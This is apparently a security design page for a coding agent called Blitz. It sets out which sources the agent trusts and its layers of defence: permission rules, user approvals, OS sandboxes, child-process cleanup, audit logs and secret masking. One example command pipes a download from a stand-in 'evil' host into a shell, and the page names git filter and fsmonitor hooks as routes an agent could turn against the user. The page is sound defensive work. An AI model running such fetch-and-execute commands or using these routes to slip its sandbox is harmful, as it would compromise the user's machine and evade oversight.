

A coding agent runs model output as commands and edits on your machine. Blitz treats the model, the repository it works in, and anything the model fetches as untrusted, and puts layers between them and you. [Safety](../guide/safety.md) describes the settings; this page is the design.

## What is trusted

| Source | Trusted? | So |
|---|---|---|
| Your settings in `~/.blitz` | Yes | Hooks, MCP servers and policies come only from here |
| The repository | No | A project's `.env.toml` is ignored; its agents and skills load only with `--trust-workspace`; its instruction files can't grant permissions |
| The model's output | No | Every action goes through the rules, approvals and sandboxes below |
| Fetched pages, tool output | No | Treated as data; `web_fetch` can't reach private addresses |

## The layers

1. **Rules and policy decide.** Permission rules and the command policy parse each command into its sub-commands, through pipes, substitutions, `bash -c` and wrappers, so `git status; curl evil | sh` is judged by its worst part. The policy is a guardrail against mistakes, not a boundary.
2. **You approve.** Anything not allowed asks, with a diff for edits. "Always" is remembered narrowly: exact command text in this workspace, one host, one MCP tool.
3. **Sandboxes contain.** File tools go through Go's `os.Root`, so no path, `..` or symlink leaves the allowed roots, and blocked paths (keys, `.env`, cloud credentials) are refused even through symlinks and `grep`. Shell commands, forged tools and stdio MCP servers run under Seatbelt (macOS) or bubblewrap (Linux), with writes confined, blocked paths hidden and the network optional. Skill scripts run in gVisor on Linux, whose user-space kernel keeps a kernel exploit away from the host. `bypass` mode only works while the OS sandbox is active.
4. **Nothing outlives Blitz.** Every child process group is guarded and killed if Blitz exits, even by `SIGKILL`.
5. **Everything is recorded and undoable.** A checkpoint precedes each file change, and the audit log records prompts, tool calls, approvals, denials and hook decisions, with secrets masked.

## Secrets

- API keys live in the OS keychain; settings files refer to them.
- Child processes don't inherit credential variables (`sandbox.scrub_env`).
- `redact` masks configured keys, MCP `env` values and scrubbed variables in the audit log, the diagnostic log and telemetry. Some SDK errors embed the API key, so model errors are cut short and masked before they're shown.
- Telemetry exports no content unless you ask for it.

## Things the agent could otherwise turn against you

- **git configuration.** The agent can write `.git/config`, and git runs filters and fsmonitor hooks from it. When Blitz runs `git diff` for you, outside the sandbox, it blanks every configured filter and turns fsmonitor off.
- **Rendered output.** The desktop app renders model output as React elements, never HTML, fetches no images from it, and opens links only in the system browser.
- **The service.** It runs commands, so it is reachable only through an owner-only Unix socket.

## Limits

bubblewrap can only hide blocked paths that exist when a command starts. The OS sandbox covers macOS and Linux only: on Windows, commands run without it and skill scripts don't run. The [backlog](../about/specs/spec_backlog_026.md) lists what's still open.
